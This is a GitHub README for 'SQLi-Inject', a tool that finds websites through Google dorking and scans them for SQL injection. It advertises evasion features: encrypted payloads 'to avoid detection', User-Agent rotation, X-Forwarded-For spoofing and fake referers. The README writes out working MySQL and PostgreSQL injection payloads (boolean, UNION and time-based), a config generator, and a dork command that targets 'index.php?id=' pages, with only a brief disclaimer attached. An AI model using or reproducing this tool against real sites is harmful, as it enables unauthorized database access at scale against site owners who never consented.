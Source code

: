 # SQLi-Inject  
**Comprehensive SQL Injection Dork Scanner**  

---

## 🔍 Main Features
- **Automatic Google Dorking** - Discover targets using the Google Custom Search API
- **Encrypted Payloads** - Encrypt payloads with Fernet to avoid detection
- **Multithreaded Scanning** - Parallel execution with ThreadPoolExecutor
- **Evasion Mechanisms**:
  - Random User-Agent rotation
  - Dynamic delay with jitter
  - Spoofing X-Forwarded-For header
  - Fake referer
- **Multi-Format Reporting** (JSON/CSV/Console)
- **Intelligent Detection**:
  - Response time analysis
  - Database error pattern matching
  - HTTP status code validation

---

## 🛠️ Installation
1. Clone the repository  
```bash
git clone https://github.com/KnuckleSalt/SQli-Dork
```

2. Install dependencies


```bash
pip install -r requirements.txt
```

---

⚙️ Configuration

Create a file named config.yaml using the following template:

```bash
security:
  encryption_key: "base64_32_byte_fernet_key"

payloads:
  mysql:
    - "gAAAAAB..."  # Encrypted MySQL payload
    - "gAAAAAB..."  # Example: ' OR 1=1 --
  postgresql:
    - "gAAAAAB..."  # Encrypted PostgreSQL payload

network:
  proxies:
    http: "http://proxy:port"
    https: "https://proxy:port"
  timeout: 10

endpoints:
  google: "https://www.googleapis.com/customsearch/v1"

credentials:
  api_key: "your_google_api_key"
  cse_id: "your_cse_id"

stealth:
  referers:
    - "https://www.google.com"
    - "https://www.bing.com"
  time_based_threshold: 3.5

performance:
  threads: 15

detection_patterns:
  - "error in your SQL syntax"
  - "Warning: mysql"
  - "PostgreSQL.*ERROR"
```

## 🔑 Generate Encryption Key

from cryptography.fernet import Fernet
print(Fernet.generate_key().decode())

## 🔒 Example Payload Encryption

```bash
key = Fernet.generate_key()
cipher = Fernet(key)
encrypted_payload = cipher.encrypt(b"' OR 1=1 -- ").decode()
print(encrypted_payload)
```

## Example auto generate config.yaml

```bash
from cryptography.fernet import Fernet
import yaml

KEY = Fernet.generate_key()
cipher = Fernet(KEY)

payloads = {
    "mysql": [
        "' OR 1=1 -- ",
        "' UNION SELECT version(),2 -- ",
        "' AND 1=IF(2>1,SLEEP(5),0) -- "
    ],
    "postgresql": [
        "' OR 1=1; -- ",
        "' UNION SELECT NULL,version() -- ",
        "' AND CASE WHEN (1=1) THEN pg_sleep(5) ELSE NULL END -- "
    ]
}

encrypted_payloads = {
    dbms: [cipher.encrypt(p.encode()).decode() for p in payloads[dbms]]
    for dbms in payloads
}

config = {
    'security': {'encryption_key': KEY.decode()},
    'payloads': encrypted_payloads,
    'network': {'timeout': 10, 'proxies': {}},
    'endpoints': {'google': 'https://www.googleapis.com/customsearch/v1'},
    'credentials': {'api_key': 'YOUR_APIKEY', 'cse_id': 'YOUR_CSE'},
    'stealth': {'referers': ['https://google.com'], 'time_based_threshold': 3.5},
    'detection_patterns': [
        r"SQL syntax.*MySQL",
        r"PostgreSQL.*ERROR",
        r"Warning.*mysql_",
        r"unclosed quotation mark"
    ],
    'performance': {'threads': 10}
}

with open('config.yaml', 'w') as f:
    yaml.dump(config, f, default_flow_style=False)

print("Config file generated successfully!")
```


---

## 🚀 Usage

Basic command:

```bash
python scanner.py --dork "inurl:index.php?id=" --max-results 50 --stealth
```

## Parameter options:

--dork          Google search query (required)
--site          Filter by domain
--file-type     Filter by file type
--max-results   Maximum number of results (1-100)
--stealth       Enable stealth mode
--jitter        Random delay variation (default: 0.5)
--delay         Base delay between requests (default: 1.0)
--random-agent  Random User-Agent rotation
--output        Report format (console/json/csv)


---

## ⚠️ Disclaimer

This tool is for educational and legal testing purposes only. Users are fully responsible for their own usage of this tool.


---

## 🙌 Special Thanks

Thanks to the open source contributors:

- [synnaulaid](https://github.com/synnaulaid) - Inspiration for developing security tools and debugging



---

